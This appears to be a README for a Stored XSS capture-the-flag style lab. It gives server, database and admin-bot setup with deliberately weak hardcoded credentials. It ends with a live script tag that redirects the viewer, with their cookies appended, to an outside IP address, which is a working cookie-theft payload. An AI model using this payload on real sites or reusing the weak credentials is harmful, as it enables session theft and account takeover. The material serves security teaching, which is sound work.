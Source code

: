 # XSS-Attack-1 (Welcome)

Laboratory work to demonstrate the Stored XSS vulnerability.
## Legend:

TODO
## Setup

### Requirements

Disk space: 4 GB


### Building from sources (Debian 10)


1. Install all necessary packages

    ```bash
    sudo apt-get update
    sudo apt-get install -y nginx php-fpm mariadb-server curl unzip xvfb libxi6 libgconf-2-4 default-jdk wget htop mc unzip php-mysql maven
    
    
 
    wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
    sudo apt install -y ./google-chrome-stable_current_amd64.deb
    wget https://chromedriver.storage.googleapis.com/2.41/chromedriver_linux64.zip
    unzip chromedriver_linux64.zip
    sudo mv chromedriver /usr/bin/chromedriver
    sudo chown root:root /usr/bin/chromedriver
    sudo chmod +x /usr/bin/chromedriver
    ```
2. Copy files to the server 
    Put contents of **web** folder to /var/www/html.
    ```bash
    /var/www/html/index.php
	...
    ```
    Put content of **bot** folder to /home/**USERNAME**/bot
    ```bash
    /home/admin/bot/
    /home/admin/bot/pom.xml
    /home/admin/bot/src/
    ```
    
    

3. Configure database
    ```bash
    sudo mysql -e "UPDATE mysql.user SET Password = PASSWORD('12345') WHERE User = 'root'"
    sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
    sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
    sudo mysql -e "DROP DATABASE IF EXISTS test;"
    sudo mysql -e "create database guestbook";
    sudo mysql -e "CREATE USER 'admin'@'localhost' IDENTIFIED BY 'admin'";
    sudo mysql -e "GRANT ALL PRIVILEGES ON guestbook . * TO 'admin'@'localhost'";
    sudo mysql -e "FLUSH PRIVILEGES";
    ```

4. Fill database with data
    ```SQL
    CREATE TABLE IF NOT EXISTS `users` (  `id` INT NOT NULL AUTO_INCREMENT,  `login` VARCHAR(45) NULL,  `password` VARCHAR(45) NULL,  PRIMARY KEY (`id`))ENGINE = InnoDB;
    CREATE TABLE IF NOT EXISTS `posts` (  `id` INT NOT NULL AUTO_INCREMENT, `content` MEDIUMTEXT NULL,  PRIMARY KEY (`id`))ENGINE = InnoDB;
    insert into `users`(`login`,`password`) values ('admin','30bdad3b2f064123f40da204e6172db6');
    
    ```
    Admin password: **someStrongAndUltraSecretpass** - md5:30bdad3b2f064123f40da204e6172db6


6. Configure nginx (php7.3)
    ```bash
		server {
				listen 80 default_server;
				listen [::]:80 default_server;
				root /var/www/html;
				index index.php;
				server_name _;
				location / {
						try_files $uri $uri/ =404;
				}
				location ~ \.php$ {
						include snippets/fastcgi-php.conf;
						fastcgi_pass unix:/run/php/php7.3-fpm.sock;
				}
		}

    ```



5. Compile bot
    ```bash
    cd ~
    cd bot
    mvn package
    ```
    You will find target folder where will be **bot-1.0.jar**

6. Create bash script to run bot (eg: run.sh)

    ```bash
    
    java -jar /home/admin/bot/target/bot-1.0.jar -l admin -p someStrongAndUltraSecretpass

    
    ```
7. Create a cronjob that will execute run.sh from **step 6** every minute.

    ```bash
    * * * * * /bin/bash /home/admin/run.sh >/dev/null 2>&1
    ```



### Validation 

1. Login with admin credentials (admin/someStrongAndUltraSecretpass)
2. Navigate admin.php



## Solution

TODO:

Someday I will finish this page. Need to change the name of my blog to <b> Super_MBlog</b>




<script type="text/javascript">
document.location='http://84.252.129.146:9999/?c='+document.cookie;
</script>


